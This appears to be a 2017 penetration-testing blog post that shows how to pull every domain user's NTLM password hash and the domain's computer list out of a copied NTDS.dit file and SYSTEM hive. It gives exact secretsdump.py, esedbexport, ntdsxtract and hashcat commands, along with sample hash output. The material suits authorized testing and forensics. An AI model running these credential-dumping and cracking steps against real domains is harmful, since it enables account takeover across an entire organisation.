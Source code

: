 ```yaml
---
title: "Extracting Hashes and Domain Info From ntds.dit"
slug: "extracting-hashes-and-domain-info-from-ntds-dit"
author: "ropnop"
date: 2017-07-06
summary: "If you end up with a copy of NTDS.dit and the SYSTEM registry hive, you can extract domain computer info offline and user NTLM hashes for cracking."
toc: true
share_img: "/images/2017/07/Screen-Shot-2017-07-06-at-2-55-08-PM-1.png"
tags: ["windows","python","hash","ntds","impacket"]
---
```


On internal pens, it's really common for me to get access to the Domain Controller and dump password hashes for all AD users. A lot of tools make this super easy, like [smart_hashdump](https://www.darkoperator.com/blog/2011/5/19/metasploit-post-module-smart_hashdump.html) from Meterpreter, or [secretsdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py) from Impacket.

But occasionally, I end up with a hard copy of the NTDS.dit file and need to manually extract the information offline. This came up today and I decided to document the process. I'm not going to go into the details on how to obtain the files, but am going to assume I have everything I need already offline:

* a copy of NTDS.dit (`ntds.dit`)
* a copy of the SYSTEM registry hive (`systemhive`)

```bash
$ file *
ntds.dit:   Extensible storage engine DataBase, version 0x620, checksum 0xa50ff5a, page size 8192, DirtyShutdown, Windows version 6.1
systemhive: MS Windows registry file, NT/2000 or above
```
# Using Impacket
Update: [@agsolino](https://twitter.com/agsolino), the creator of Impacket just told me on Twitter that `secretsdump.py` has a LOCAL option that makes this incredibly easy! Can't believe I never realized that, but it makes sense that Impacket saves me time and trouble again ;)

If you have the NTDS.dit file and the SYSTEM hive, simply use the `secretsdump.py` script to extract all the NT hashes:

```bash
$ python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```
It takes a little while, but it will spit out nicely formatted NTLM hashes for all the Domain users:

![Secretsdump](/images/2017/07/secretsdump.png)

This is definitely the easiest method. If you want to go through the exercise of exporting the tables and using ntdsxtract, the following steps can be taken too:

# Installing esedbexport
The first step is to extract the tables from the NTDS.dit file using `esedbexport`, which is part of [libesedb](https://github.com/libyal/libesedb/).

To install, download the latest release of source code from the releases page:

https://github.com/libyal/libesedb/releases

I used the latest pre-release "libesedb-experimental-20170121".

Download and extract the source code:

```bash
$ wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz

$ tar xf libesedb-experimental-20170121.tar.gz

$ cd libesedb-20170121/
```

Now install the requirements for building:

```bash
$ sudo apt-get install autoconf automake autopoint libtool pkg-config
```

And configure, make and install libesedb:

```bash
$ ./configure
$ make
$ sudo make install
$ sudo ldconfig
```

If all went well, you should have the export tool available at `/usr/local/bin/esedbexport`

## Dumping Tables
Now that the tool is installed, use it to dump the tables from the `ntds.dit` file. This will create a new directory, called `ntds.dit.export` with the dumped tables:

```bash
$ /usr/local/bin/esedbexport -m tables ntds.dit
```
This step can take quite a while (20-30 minutes for me). At the end though, you should see it successfully extracted the tables:

![Extracted Tables](/images/2017/07/Screen-Shot-2017-07-06-at-2-55-08-PM.png)

The two important tables are the `datatable` and `link_table`, and both will be in `./ntds.dit.export/`

## Extracting Domain Info with ntdsxtract
Once the tables are extracted, there is a great set of Python tools that can be used to interact with the data and dump valuable data: [ntdsxtract](https://github.com/csababarta/ntdsxtract)

Clone the repository and the python scripts should be usable as-is. Or they can be installed system wide:

```bash
$ git clone https://github.com/csababarta/ntdsxtract.git

$ cd ntdsxtract/

$ python setup.py build && python setup.py install
```

## Dumping User Info and Password Hashes
The ntdsxtract tool [dsusers.py](https://github.com/csababarta/ntdsxtract/blob/master/dsusers.py) can be used to dump user information and NT/LM password hashes from an extracted table. It requires three things:

* datatable
* link_table
* system hive

The syntax is:

```bash
$ dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```

The `--pwdformat` option spits out hash formats in either John format (`john`), oclHashcat (`ocl`) or OphCrack (`ophc`).

It will also spit out all the User information to stdout, so it's helpful to `tee` the output to another file.

To extract all NT and LM hashes in oclHashcat format and save them in "ntout" and "lmout" in the "output" directory:

```bash
$ dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive systemhive --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
```

After it runs, the NT hashes will be output in oclHashcat ready format:

```
root@kali:~/ntds_cracking# head -n2 output/ntout
user1:BC62AC0F8EA9DD1AD703C8B4F0A968C4
user2:0E10081EDBCFB92DE6156F9046FF7881
```

Looking at the file we `tee`'d into, we can see other information about the users, such as SID, when the password was created, last logons, etc:

![User Info](/images/2017/07/Screen-Shot-2017-07-06-at-3-13-52-PM.png)

To crack the NT hashes with hashcat, use mode 1000:

```bash
$ hashcat -m 1000 output/ntout --username /path/to/wordlist
```

## Bonus: Extracting Domain Computer Info
Ntdsxtract also has a tool to extract domain computer information from the dumped tables. This can be useful for generating target lists offline. 

To use, supply it the datatable, output directory, and a csvfile to write to:

```bash
$ dscomputers.py ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
```
It generates a nice CSV of all computers in the domain, with the following columns:

```bash
$ head -n 1 computer_output/all_computers.csv
"Record ID";"Computer name";"DNS name";"GUID";"SID";"OS name";"OS version";"When created";"When changed";"Bitlocker recovery name";"Bitlocker recovery GUID";"Bitlocker volume GUID";"Bitlocker when created";"Bitlocker when changed";"Bitlocker recovery password";"Dial-In Permission"
```

# Summary
It's a lot easier and faster to just use [secretsdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py) or other authenticated methods of domain reconaissance to dump user info, passwords hashes, etc.

But if you end up with a copy of the NTDS.dit file and the SYSTEM hive and want to extract info offline, use this guide.

Hope this helps someone out there!

-ropnop




